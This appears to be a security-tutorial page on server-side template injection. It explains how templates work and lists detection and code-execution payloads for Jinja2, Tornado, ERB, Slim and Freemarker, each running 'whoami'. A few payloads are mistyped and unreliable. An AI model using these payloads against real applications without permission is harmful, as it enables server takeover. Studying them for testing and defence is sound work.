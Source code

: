 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

The most popular template engine for Java.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

The **new()** command is used to instantiate classes -> execute class can be used to execute shell commands.

* ${7\*7}  ->  49

<mark style="color:green;">**For Code Execution:**</mark>

* <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
* \[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('whoami')}
* ${"freemarker.template.utility.Execute"?new()("whoami")}

